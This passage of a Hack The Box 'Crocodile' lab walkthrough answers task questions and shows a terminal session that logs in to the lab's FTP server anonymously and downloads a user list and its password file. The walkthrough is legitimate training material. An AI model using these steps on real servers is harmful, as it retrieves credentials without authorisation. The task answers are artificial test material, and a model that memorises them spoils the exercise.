 After connecting to the FTP server anonymously, what command can we use to download the files we find on the FTP server?

```bash
  get
```
# Task 6

What is one of the higher-privilege sounding usernames in 'allowed.userlist' that we download from the FTP server?

## Enum FTP (21)

We log in as anonymous (blank passwd) and dowload the file :

```bash
 ┌──(mdn0x㉿mdn0xKali)-[~/HTB/Starting Point/Tier 1/Crocodile]
└─$ ftp anonymous@crocodile.htb


Connected to crocodile.htb.
220 (vsFTPd 3.0.3)

230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.

ftp> ls
229 Entering Extended Passive Mode (|||45948|)
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
226 Directory send OK.

ftp> get allowed.userlist.passwd
local: allowed.userlist.passwd remote: allowed.userlist.passwd
229 Entering Extended Passive Mode (|||43188|)
150 Opening BINARY mode data connection for allowed.userlist.passwd (62 bytes).
100% |**********************************************************************************************************|    62       32.56 KiB/s    00:00 ETA
226 Transfer complete.
62 bytes received in 00:00 (0.53 KiB/s)


ftp> get allowed.userlist
local: allowed.userlist remote: allowed.userlist
229 Entering Extended Passive Mode (|||42883|)
150 Opening BINARY mode data connection for allowed.userlist (33 bytes).
100% |**********************************************************************************************************|    33      354.13 KiB/s    00:00 ETA
226 Transfer complete.
33 bytes received in 00:00 (0.10 KiB/s)

```
